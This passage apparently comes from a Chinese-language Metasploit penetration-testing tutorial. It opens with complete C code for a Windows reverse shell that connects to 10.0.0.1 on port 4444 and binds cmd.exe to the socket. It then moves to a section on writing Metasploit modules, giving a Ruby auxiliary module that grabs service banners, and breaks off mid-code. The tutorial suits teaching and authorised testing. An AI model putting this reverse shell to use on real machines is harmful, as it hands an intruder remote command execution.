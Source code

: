 ```c
    SOCKET Winsock;
    struct sockaddr_in addr;
    STARTUPINFO sInfo;
    PROCESS_INFORMATION pInfo;

    WSAStartup(MAKEWORD(2, 2), &wsaData);

    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = inet_addr("10.0.0.1");
    addr.sin_port = htons(4444);

    connect(Winsock, (SOCKADDR *) &addr, sizeof(addr));

    memset(&sInfo, 0, sizeof(sInfo));
    sInfo.cb = sizeof(sInfo);
    sInfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    sInfo.hStdInput = sInfo.hStdOutput = sInfo.hStdError = (HANDLE) Winsock;

    TCHAR commandLine[] = TEXT("cmd.exe");

    CreateProcess(NULL, commandLine, NULL, NULL, TRUE, 0, NULL, NULL, &sInfo, &pInfo);
    return 0;
}
```
<a name="GYgrh"></a>
### 2、模块开发
Metasploit允许用户开发自己的模块，以满足特定的渗透测试需求。用户可以使用各种编程语言（如Ruby、Python、Java等）来编写模块，并利用Metasploit框架中提供的API进行交互。<br />例如，使用Ruby编写一个模块，该模块可以进行端口扫描和漏洞验证：
```ruby
require 'msf/core'

class MyModule < Msf::Auxiliary
  include Msf::Exploit::Remote::Tcp
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'My Module',
      'Description'    => %q{This module performs port scanning and vulnerability assessment},
      'Author'         => ['Me'],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2017-1234'],
          [ 'URL', 'http://www.example.com/']
        ],
      'DisclosureDate' => '2021-01-01'))


    register_options(
      [
        Opt::RPORT(22),
        OptInt.new('TIMEOUT', [true, 'The maximum number of seconds to wait for a response', 5])
      ])
  end

  def run
    timeout = datastore['TIMEOUT'].to_i
    begin
      connect
      banner = sock.get_once(-1, timeout)
      print_status("Banner: #{banner}")

```